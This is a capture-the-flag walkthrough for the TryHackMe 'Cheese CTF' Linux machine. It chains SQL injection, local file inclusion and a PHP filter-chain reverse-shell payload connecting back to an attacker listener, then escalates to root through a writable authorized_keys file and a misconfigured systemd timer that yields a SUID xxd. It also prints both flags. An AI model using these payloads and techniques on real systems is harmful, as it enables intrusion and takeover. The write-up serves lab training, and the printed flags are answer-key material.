




---

- **Target:** Cheese CTF (Linux)
- **Author:** sonyahack1
- **Date:** 02.05.2025


## Summary

- Foothold: 'LFI with full RCE (php://filter)'
- User Flag: 'THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}'
- Root Flag: 'THM{dca75486094810807faf4b7b0a929b11e5e0167c}'
- Credentials: 'authorized via ssh authorized_keys'

---

> add IP in /etc/hosts

```bash

echo '10.10.221.128 cheese.thm' | sudo tee -a /etc/hosts

```

---

## Recon

> nmap TCP-scan

```bash

nmap -sVC -p- -v -T5 cheese.thm -oN cheeseCTFnmap

```



> Scanning the target indicates some anomaly in the server responses. Generating a huge number of open ports may indicate filtering
> by a firewall or honeypot. It may also be a fake rejection from IDS/IPS systems. Anyway it's a strong indicator of a honeypot or
> distorted behavior of the target.

> I'll try to scan the most known and probable ports:

```bash

sudo nmap -sVC -p 22,80,443,25,23,21,8080,3306 -v -T5 cheese.thm -oN cheeseCTFnmap

```

> Result

```bash

22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b1:c1:22:9f:11:10:5f:64:f1:33:72:70:16:3c:80:06 (RSA)
|   256 6d:33:e3:bd:70:62:59:93:4d:ab:8b:fe:ef:e8:a7:b2 (ECDSA)
|_  256 89:2e:17:84:ed:48:7a:ae:d9:8c:9b:a5:8e:24:04:bd (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Cheese Shop
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS

```
> Ok. I see **22** (ssh) and **80** (web) ports. The web application runs on the **Apache httpd 2.4.41**.
> web site - **The Cheese Shop**.


> runs bruteforce directories with **ffuf** tool:

```bash

ffuf -u 'http://cheese.thm/FUZZ' -w /usr/share/wordlists/dirb/big.txt -ic -c -e .php,.txt,.html

```
> Results:

```bash

.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 61ms]
.htaccess.html          [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 61ms]
.htaccess.txt           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 61ms]
.htaccess.php           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 61ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 56ms]
.htpasswd.txt           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 57ms]
.htpasswd.php           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 57ms]
.htpasswd.html          [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 57ms]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 58ms]
index.html              [Status: 200, Size: 1759, Words: 559, Lines: 60, Duration: 58ms]
login.php               [Status: 200, Size: 834, Words: 220, Lines: 29, Duration: 58ms]
messages.html           [Status: 200, Size: 448, Words: 59, Lines: 19, Duration: 57ms]
orders.html             [Status: 200, Size: 380, Words: 61, Lines: 19, Duration: 57ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 56ms]
users.html              [Status: 200, Size: 377, Words: 61, Lines: 19, Duration: 57ms]

```

> I will also scan for subdomains:

```bash

ffuf -u 'http://cheese.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -mc all -ac -H 'Host: FUZZ.cheese.thm'

```

> Result

```bash

________________________________________________

*                       [Status: 400, Size: 301, Words: 26, Lines: 11, Duration: 58ms]
:: Progress: [100000/100000] :: Job [1/1] :: 684 req/sec :: Duration: [0:02:38] :: Errors: 0 ::

```

> Nothing.

---

> The fuzzing results contain some interesting ones - **login.php** and **messages.html**.
> **Note:** all other results are empty and do not contain useful information.


> Going to **/login.php** i see a login form. Where exactly it leads i don't know. Maybe to the admin panel or the user personal account.





> Intercepting post reqeust login form in BurpSuite

```bash

POST /login.php HTTP/1.1
Host: cheese.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://cheese.thm
Connection: keep-alive
Referer: http://cheese.thm/login.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=password

```

> The data is transmitted in clear text in the **username** and **password** parameters.


> I open the **messages.html** page and see a link to the **message!** script. I follow it and there is an empty html page, but i am interested in the url address.


> Ok. I'm intercepting this request in BurpSuite to make it easier for me to work with the url parameter in repeater:

```html

GET /secret-script.php?file=php://filter/resource=supersecretmessageforadmin HTTP/1.1
Host: cheese.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://cheese.thm/messages.html
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> to sum it up briefly. I have a **login form** that transmits data to the server in clear text and there is a **secret-script.php script**
> that allows you to include files via the file parameter using the php://filter wrapper for filtering, which may be vulnerable

> I have potentially **two possible entry points**.

---

## Entry Point

> Ok. Now the most interesting part. The further development of the attack vector is ambiguous because there are nuances that i will talk about later.
> During my walkthrough it turned out that there are two ways to compromise the system, but one of them does not work for reasons unknown to me.

> I'll start with the vector that i tried to develop first through the **SQL vulnerability in the login form.**


> I get started **sqlman** scan to detect vulnerability in **login.php** form

```bash

sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch --level=3 --risk=2

```

> Result:

```bash

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 4550 FROM (SELECT(SLEEP(5)))iqVS)-- Dnvc&password=admin
---

```

> Detected **time-based blind** SQL vulnerability. And also i see that the server use MySQL database.

> Get list of databases:

```bash

sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch --dbs

```

> Result:

```bash

[16:31:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

[16:32:45] [INFO] retrieved: users
available databases [2]:
[*] information_schema
[*] users


```

> there a two databases but i'm interested the **users**
> Get list of **users tables**:

```bash

 sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch -D users --tables

```
> Result:

```bash

[16:38:15] [INFO] adjusting time delay to 1 second due to good response times
users
Database: users
[1 table]
+-------+
| users |
+-------+

```

> Display the contents of the **users** table:

```bash

 sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch -D users -T users --dump


```
> Result:

```bash

[16:44:22] [WARNING] no clear password(s) found
Database: users
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+

```
> I get username and it's password hash.

---

> At this point i hit a dead end because **this hash wouldn't break.**

> This is a hash of the MD5 type or its variant (I tried all of them). But the password from which this hash is formed is
> not in any of the words that i know of in the brute force.
> This was a surprise to me because it seemed like i had initially chosen the wrong vector image it worked and although i
> was able to get the credentials from the database.

> There is a honeypot and i have a honeyway :)

> **Note:** Further along the way, i show another thing that makes this vector even stranger than it already is.

---

> come back to the previously intercepted request of the php script **secret-script.php**.
> I see this GET reqeust:

```html

GET /secret-script.php?file=php://filter/resource=supersecretmessageforadmin HTTP/1.1

```

> As i mentioned earlier, i see that a certain script is used on the server, which in the file parameter takes a value that is used
> as a path to the file using **php://filter** as a wrapper.
> **php://filter** is a PHP mechanism that allows you to apply filters to I/O streams such as encoding the contents of a file in base64.

> **php://filter** is not a vulnerability in itself. The vulnerability is the code itself in which the developer allows the user to directly enter the path to the file.
> What causes **LFI vulnerability**.

> i try to change this GET request and check to common LFI:

```html

GET /secret-script.php?file=../../../../../../etc/passwd HTTP/1.1

```

> Result:


> LFI is work. I get a passwd file and i see **'comte'** user.

> **Note:** initially i tried to find any credentials in clear text, keys or hashes in various configuration files:


```bash

../../../../../home/comte/.ssh/id_rsa
../../../../../home/comte/.ssh/id_dsa
../../../../../home/comte/.ssh/id_ecdsa
../../../../../home/comte/.ssh/id_ed25519
../../../../../home/comte/.ssh/id_rsa.pub
../../../../../var/www/html/config.php
../../../../../var/www/html/db.php
../../../../../var/www/html/settings.php
../../../../../var/www/html/includes/config.php
../../../../../var/www/html/.env
../../../../../var/www/html/.htpasswd
../../../../../var/www/html/.htaccess
../../../../../var/www/html/wp-config.php 
../../../../../etc/apache2/httpd.conf
../../../../../etc/httpd/conf/httpd.conf
../../../../../etc/apache2/envvars
../../../../../etc/apache2/apache2.conf

```

> But didn't receive anything

> After a Google search on the topic **"payload LFI for php://filter/"** i found a script that generates a chain of built-in PHP filters for
> encoding the payload in such a way that when it is restored on the server the PHP code that we transmit is executed.

> **PoC** - [chain-filter_attack](https://github.com/synacktiv/php_filter_chain_generator)

> Generated php filter payload for **file** parameter:

```bash

python3 chainfilter.py --chain '<?php $sock=fsockopen("*.*.*.*",4444);$proc=proc_open("/bin/sh -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>'

```

> Result:



> This is a very huge php filter chain

> runs the listener:

```bash

 sudo nc -lvnp 4444

```

> i substitute it into the parameters file and get a reverse shell to the **www-data** service account.


```bash 

listening on [any] 4444 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.221.128] 42572
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@cheesectf:/var/www/html$ whoami
whoami
www-data
www-data@cheesectf:/var/www/html$

```

---

> **Note:** Returning to my first vector where i exploited the SQL vulnerability in the login form /login.php at the very beginning. Here is what i wanted to show.
> On the server at **/var/www/html** there is a file **login.php**, inside of which there is something interesting:

```bash

www-data@cheesectf:/var/www/html$ ls
adminpanel.css  login.css      orders.html        supersecretadminpanel.html
images          login.php      secret-script.php  supersecretmessageforadmin
index.html      messages.html  style.css          users.html
www-data@cheesectf:/var/www/html$

```
```bash

// Replace these with your database credentials
$servername = "localhost";
$user = "comte";
$password = "VeryCheesyPassword";
$dbname = "users";

```
> I get the credentials of the user "comte", and also pay attention to the fact that dbname="users", that is, what i found at the
> very beginning when using sqlmap. At first, when I saw this, I thought that this is the same password from which the same hash
> is formed in the table "users". But I checked, and the hash from the password "VeryCheesyPassword" is different from what is stored in the database.

> I used the following python script to check the hashes:

```bash

import hashlib
print(hashlib.md5(b'VeryCheesyPassword').hexdigest())

```
> Result

```bash

aa2aaacedaf2c48f17143ef6925f5c2d

```

> password hash in the 'users' table in databases:

```bash

5b0c2e1b4fe1410e47f26feff7f4fc4c

```

> So. I reaaly don't know what this hash is. Probably it's unimportant.

> **Note:** this password 'VeryCheesyPassword' don't work on the ssh or login.php form.

---

> Ok. I'm going back to reverse shell.

> In the home directory of the user **comte** i found a directory **.ssh** which contains the file **authorized_keys** with **rw** rights for all users.

```bash

www-data@cheesectf:/home/comte$ ls -la .ssh
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys

```
> **authorized_keys** - This is a list of public SSH keys that are allowed to connect to this account without a password.
> This means i can add (copy) my own public SSH key to the authorized_keys file and connect to **comte** via SSH **without a password**:

```bash

ssh -i .ssh/id_ed25519 comte@10.10.117.167

```
> get the first **user flag**:

```bash

comte@cheesectf:~$ id
uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
comte@cheesectf:~$ cat user.txt

```
```bash

THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}

```

## Privilege Escalation

> check sudo -l:

```bash

comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

```

> I see a list of commands that the user comte can execute with elevated privileges (sudo) without having to enter a password.
> These are commands for managing **systemd** - the Linux initialization system that manages units **.service**, **.timer**, **.socket**, etc.
> I can manage systemd using the **systemctl** utility.

> I'll try to restart the **exploit.timer** timer and see what it does:

```bash

comte@cheesectf:~$ sudo /bin/systemctl restart exploit.timer
Failed to restart exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.

```

> I get an error that the exploit.timer unit has an incorrect entry
> systemd unit files are stored in **/etc/systemd/system**:



> The list is large, but I'm interested in two custom files - **exploit.service** and **exploit.timer**
> **exploit.timer** specifies when and which .service will be launched.
> **exploit.service** - what exactly will be executed.

> Contents of **exploit.timer**:

```bash

[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target

```

> I see that the **OnBootSec** parameter is missing in the [Timer] section, which specifies after how long to start .service.
> the file has **rwx** rights for all users, so i can edit it and set **1s**, for example.

> Contents of **exploit.service**:


```bash

[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

```

> To summarize. There are two custom systemd units in the /etc/systemd/system directory - **exploit.timer** and **exploit.service**.
> The **exploit.timer** unit is a timer that, when activated with root privileges, runs the associated exploit.service
> and the command in it **/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"** also with root privileges:

```bash

comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer

```

> Result:

```bash

comte@cheesectf:/opt$ ls -l
total 20
-rwsr-sr-x 1 root root 18712 May  3 22:03 xxd

```

> I get a **xxd** binary file with the **SUID bit set to root**. This is a regular text file containing a hex representation of the
> binary file created by the **xxd utility** . Such a file can later be **restored to a binary using xxd -r**. This means that i can
> use this utility to convert any command and write it to any file as root.

> In this situation, i will do exactly the same thing that i did at the beginning when i got access to the user **comte** using unsafe rights to
> write the file **authorized_keys** and simply send my public ssh key to write to **authorized_keys** only for the root user:

```bash

comte@cheesectf:/opt$ echo 'my_ssh_pub_key' | /opt/xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"

```

> **Note:** It is worth mentioning such a nuance that you need to use the utility that was created as a result of the work of the **systemd unit exploit.service**
> and has the **SUID bit with the owner set to root** , and not the system one in **/usr/bin/xxd** since it will be executed on behalf of the user **comte without privileges**.

> After writing your public key to the authorized_keys of the root user, I connect via ssh and get **root flag**:

```bash

 ssh -i .ssh/id_ed25519 root@10.10.221.128

```
> Result:

```bash

Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 04 May 2025 02:13:33 PM UTC

  System load:  0.0                Processes:             146
  Usage of /:   31.1% of 18.53GB   Users logged in:       1
  Memory usage: 9%                 IPv4 address for ens5: 10.10.221.128
  Swap usage:   0%

  => There are 2 zombie processes.


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

47 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Apr  4 17:21:43 2024
root@cheesectf:~#

```

```bash

root@cheesectf:~# id
uid=0(root) gid=0(root) groups=0(root)
root@cheesectf:~# more root.txt
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{dca75486094810807faf4b7b0a929b11e5e0167c}
root@cheesectf:~#

```

